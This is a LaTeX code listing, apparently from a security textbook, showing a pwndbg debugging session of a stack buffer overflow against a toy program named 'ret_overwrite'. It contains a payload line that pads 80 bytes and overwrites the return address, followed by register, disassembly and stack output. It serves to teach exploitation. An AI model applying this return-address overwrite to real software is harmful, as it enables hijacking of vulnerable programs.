 \documentclass{article}
\begin{document}
\begin{lstlisting}
pwndbg> r < <(python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00'")
Starting program: /home/devneal/Security/REFE/textbook/example_code/ret_overwrite < <(python -c "print 'A' * 80 + '\xe7\x05\x40\x00\x00\x00\x00\x00'")

Breakpoint 1, 0x000000000040060d in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
[───────────REGISTERS───────────]
*RAX  0x400609 (main) ◂— push   rbp
 RBX  0x0
*RCX  0x0
*RDX  0x7fffffffdfa8 —▸ 0x7fffffffe2e5 ◂— 'XDG_VTNR=7'
 RDI  0x1
*RSI  0x7fffffffdf98 —▸ 0x7fffffffe2a5 ◂— 0x65642f656d6f682f ('/home/de')
*R8   0x400700 (__libc_csu_fini) ◂— ret    
*R9   0x7ffff7de7ab0 (_dl_fini) ◂— push   rbp
*R10  0x846
*R11  0x7ffff7a2d740 (__libc_start_main) ◂— push   r14
 R12  0x4004e0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffdf90 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7fffffffdeb0 —▸ 0x400690 (__libc_csu_init) ◂— push   r15
*RSP  0x7fffffffdeb0 —▸ 0x400690 (__libc_csu_init) ◂— push   r15
*RIP  0x40060d (main+4) ◂— sub    rsp, 0x50
[───────────DISASM───────────]
   0x400609 <main>       push   rbp
   0x40060a <main+1>     mov    rbp, rsp
 ► 0x40060d <main+4>     sub    rsp, 0x50
   0x400611 <main+8>     lea    rax, [rbp - 0x50]
   0x400615 <main+12>    add    rax, 8
   0x400619 <main+16>    mov    edx, 0x40
   0x40061e <main+21>    mov    esi, 0
   0x400623 <main+26>    mov    rdi, rax
   0x400626 <main+29>    call   memset@plt                    <0x4004a0>
 
   0x40062b <main+34>    mov    qword ptr [rbp - 0x50], 0
   0x400633 <main+42>    mov    edi, 0x40076e
[────────────STACK────────────]
00:0000│ rbp rsp  0x7fffffffdeb0 —▸ 0x400690 (__libc_csu_init) ◂— push   r15
01:0008│          0x7fffffffdeb8 —▸ 0x7ffff7a2d830 (__libc_start_main+240) ◂— mov    edi, eax
02:0010│          0x7fffffffdec0 ◂— 0x0
03:0018│          0x7fffffffdec8 —▸ 0x7fffffffdf98 —▸ 0x7fffffffe2a5 ◂— 0x65642f656d6f682f ('/home/de')
04:0020│          0x7fffffffded0 ◂— 0x100000000
05:0028│          0x7fffffffded8 —▸ 0x400609 (main) ◂— push   rbp
06:0030│          0x7fffffffdee0 ◂— 0x0
07:0038│          0x7fffffffdee8 ◂— 0x7c6654f0a1383abe
[───────────BACKTRACE───────────]
 ► f 0           40060d main+4
   f 1     7ffff7a2d830 __libc_start_main+240
Breakpoint main
pwndbg> c
Continuing.
Enter the password:


\end{lstlisting}
\end{document}
